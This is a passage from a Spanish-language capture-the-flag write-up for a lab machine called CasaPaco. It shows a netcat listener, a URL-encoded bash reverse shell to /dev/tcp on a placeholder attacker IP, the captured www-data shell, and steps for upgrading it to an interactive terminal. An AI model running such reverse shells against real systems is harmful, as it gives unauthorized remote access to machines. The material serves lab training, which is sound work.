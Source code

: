 Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Utiliza la siguiente **Reverse Shell** (recuerda **URL encodear** el comando):
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

Y ejecútala:

<p align="center">
<img src="/assets/images/THL-writeup-casaPaco/Captura16.png">
</p>

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.20] 51358
bash: cannot set terminal process group (506): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Thehackerslabs-CasaPaco:/var/www/html$ whoami
whoami
www-data
```

Ya solo obtengamos la sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Continuemos.
